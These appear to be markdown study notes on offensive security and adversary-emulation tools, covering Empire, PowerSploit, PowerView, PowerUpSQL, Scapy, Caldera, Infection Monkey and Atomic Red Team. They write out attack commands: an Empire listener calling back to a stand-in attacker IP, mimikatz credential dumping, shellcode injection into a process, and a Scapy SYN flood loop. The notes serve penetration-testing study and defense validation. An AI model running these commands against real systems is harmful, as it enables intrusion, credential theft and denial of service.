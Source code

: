 ## Bash Scripting

- **Use Case**: Automate data collection, parsing, command execution  
- **Example**:  
  ```bash
  # Automate nmap scan & save results
  nmap -sV 192.168.1.0/24 -oN scan_results.txt
```

---

## Empire & PowerSploit

- **Empire Framework**
    - **Role**: Post-exploitation (Windows) via PowerShell agents (no `powershell.exe`)
    - **Key Workflow**:
        ```text
        uselistener http
        set Host http://YOUR_IP
        execute
        ```
        - _Listener_: Waits for agents
        - _Payload_: Connects target → Empire
	- **Credential Harvesting**:
        ```text
        usemodule credentials/mimikatz/logonpasswords
        execute
        ```

- **PowerSploit**
    - **Role**: PowerShell scripts for reconnaissance/exploitation
    - **Privilege Escalation**:
        ```powershell
        Import-Module PowerSploit/Privesc
        Invoke-AllChecks
        ```
    - **Shellcode Injection**:
        ```powershell
        Import-Module PowerSploit/CodeExecution
        Invoke-Shellcode -Shellcode (Get-Content shellcode.bin) -ProcessID 1234
        ```
        
- **Integration**
    - Deploy Empire agent → escalate via `Invoke-AllChecks` → dump creds (`mimikatz`) → lateral movement

---

## PowerView (AD Reconnaissance)

- **Purpose**: Enumerate AD objects (users, groups, computers, trusts)
- **Key Commands**:
    ```powershell
    Get-NetUser
    Get-NetGroup
    Get-NetGroupMember -GroupName "Domain Admins"
    Get-NetComputer
    Get-NetDomainTrust
    Get-NetSession -ComputerName TARGET_HOST
    ```
- **Concepts**:
    - **Mapping AD**: Discover users/groups/computers
    - **High-Value Targets**: Focus on privileged accounts
    - **Trust Relationships**: Identify cross-domain attack paths

---

## PowerUpSQL (SQL Server Exploitation)

- **Purpose**: Automate discovery/exploitation of SQL Server instances
- **Key Commands**:
    ```powershell
    Get-SQLInstanceLocal -Verbose
    Get-SQLServerInfo -InstanceName "SQLSERVER01"
    Invoke-SQLEscalatePriv -Instance "SQLSERVER01" -Verbose
    Get-SQLServerLoginDefaultPw
    Get-SQLDomainUser -UserState TrustedForDelegation
    Get-SQLServerLink -Instance "SQLSERVER01"
    ```
- **Concepts**:
    - **Discovery**: Scan network for SQL instances
    - **Privilege Escalation**: Exploit misconfigurations
    - **Lateral Movement**: Use linked servers

---

## AD Search (PowerShell)

- **Purpose**: Automate AD information gathering/filtering
- **Essential Cmdlets**:
    ```powershell
    # Retrieve all users in OU
    Get-ADUser -Filter * -SearchBase "OU=Sales,DC=Corp,DC=com"
    
    # Users with "Manager" in title
    Get-ADUser -Filter {Title -like "*Manager*"} -Properties Title
    
    # Users never logged in
    Get-ADUser -Filter * -Properties LastLogonDate |
      Where-Object { $_.LastLogonDate -eq $null }
    ```
    
- **Advanced Reports**:
    ```powershell
    Get-ADGroupMember "Domain Admins" |
      Get-ADUser -Properties DisplayName,EmailAddress |
      Select DisplayName,EmailAddress |
      Export-Csv C:\Reports\DomainAdmins.csv -NoTypeInformation
    ```
    
- **Loop Example**:
    ```powershell
    $OUs = Get-ADOrganizationalUnit -Filter *
    foreach ($OU in $OUs) {
      Get-ADUser -Filter {Enabled -eq $false} -SearchBase $OU.DistinguishedName |
        Select Name,DistinguishedName
    }
    ```

---

## Impacket & Scapy
- **Impacket**
    - **Role**: Python scripts for network protocol interactions and packet crafting
- **Scapy**
    - **Role**: Packet manipulation (craft/sniff/decode)
    - **ARP Scanning**:
        ```python
        # Send ARP requests to 192.168.1.0/24, collect replies
        from scapy.all import ARP, Ether, srp
        ans, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"), timeout=2)
        for sent, received in ans:
            print(received.psrc, received.hwsrc)
        ```

	- **TCP SYN Flood**:
        ```python
        # Flood target IP with SYN packets
        from scapy.all import IP, TCP, send
        for port in range(1, 1025):
            send(IP(dst="TARGET_IP")/TCP(dport=port, flags="S"))
        ```
- **Takeaway**: Automate network reconnaissance and DoS simulations

---

## Caldera (Adversary Emulation)

- **Overview**: MITRE’s BAS platform using **MITRE ATT&CK** framework
- **Workflow**:
    1. Deploy agent(s) in virtual environment
    2. Agents execute “abilities” (attack steps)
        - **Initial Access**: e.g., simulated phishing
        - **Credential Dumping**: Mimikatz
        - **Lateral Movement**: Use stolen creds
    3. Caldera server logs results
- **Benefits**:
    - **Automation**: Chain multiple attack techniques
    - **Logging/Reporting**: Detailed success/failure insights
    - **Repeatable Scenarios**: Compare defenses pre/post-mitigation

---

## Infection Monkey (Malware Simulation)

- **Overview**: Simulates real-world malware in a safe, controlled manner
- **Components**:
    - **Agent**: Acts like malware (spreads, steals data)
    - **Monkey Island**: C2 server; tracks agent activity
- **Use Cases**:
    - Test security controls (firewall, IDS, endpoint)
    - Identify vulnerable network segments
- **Benefits**:
    - **Realistic Simulation**: Mimics ransomware/worm behavior
    - **Actionable Insights**: Pinpoints defense gaps
    - **Continuous Improvement**: Iterate to harden posture

---

## Atomic Red Team (Focused Attack Tests)

- **Overview**: Run “atomic tests” mapped to **MITRE ATT&CK**
- **Examples**:
    - **Credential Dumping (T1003.001)**
        ```powershell
        Invoke-AtomicTest T1003.001 -TestNumbers 1
        ```
    - **Malicious PowerShell Execution (T1059.001)**
        ```powershell
        Invoke-AtomicTest T1059.001 -TestNumbers 2
        ```
    - **Scheduled Task Persistence (T1053.005)**
        ```powershell
        Invoke-AtomicTest T1053.005 -TestNumbers 1
        ```
- **Advantages**:
    - **Immediate Feedback**: Quick validation of defenses
    - **Low Overhead**: Minimal setup; targeted tests
    - **Technique-Focused**: Isolate detection gaps
